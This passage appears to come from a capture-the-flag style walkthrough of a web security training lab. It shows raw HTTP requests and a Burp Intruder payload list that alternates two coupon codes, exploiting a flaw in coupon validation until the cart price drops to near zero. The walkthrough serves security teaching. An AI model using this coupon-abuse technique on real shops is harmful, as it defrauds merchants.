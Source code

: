 ```
POST /sign-up HTTP/2
Host: 0a6a00a404a3ee00807ea3a10092002c.web-security-academy.net
Cookie: session=lXhXMFKEykiilGkdWnk8wdBTxlx7Bhmy
Content-Length: 62
Origin: https://0a6a00a404a3ee00807ea3a10092002c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36

csrf=quxigk99HRgMEyFqmDMVaPJnliB5U4QW&email%2F=test%40test.com
```

After sending the above command in its response an alert box is pop up that has the following message.

```
Use coupon SIGNUP30 at checkout!
```

They give us another coupon code this time and when I add that to our cart they cut `$401.10` in our cart and now our updated price is `$930.90`. Again when I use the same coupon code again they show us the error message like before but when we use the previous code `NEWCUST5` they accept it and vice versa after that they accept the `SIGNUP30` coupon code also without giving any error message.

There the application isn't properly able to validate whether the coupon code is already in use or not. and that leads to him being vulnerable. Knowing all that send the coupon request to burp intruder and add the payload position into only coupon code like the following.

```
POST /cart/coupon HTTP/2
Host: 0a6a00a404a3ee00807ea3a10092002c.web-security-academy.net
Cookie: session=lXhXMFKEykiilGkdWnk8wdBTxlx7Bhmy
Content-Length: 53
Origin: https://0a6a00a404a3ee00807ea3a10092002c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36

csrf=quxigk99HRgMEyFqmDMVaPJnliB5U4QW&coupon=§NEWCUST5§
```

Select the Attack Type as Sniper and in the Payloads tab use Payload type as Simple list, and just paste the following payloads in Simple list.

```
SIGNUP30
NEWCUST5
SIGNUP30
NEWCUST5
```

Paste that multiple times so that we got a price that we can buy the `Lightweight l33t leather jacket` and start the attack. After the attack is finished reload the `/cart` page and you will see your cart price become either zero or in between `$100.00` so you can buy it if not then send some more requests to achieve it and buy the jacket to solve the lab.
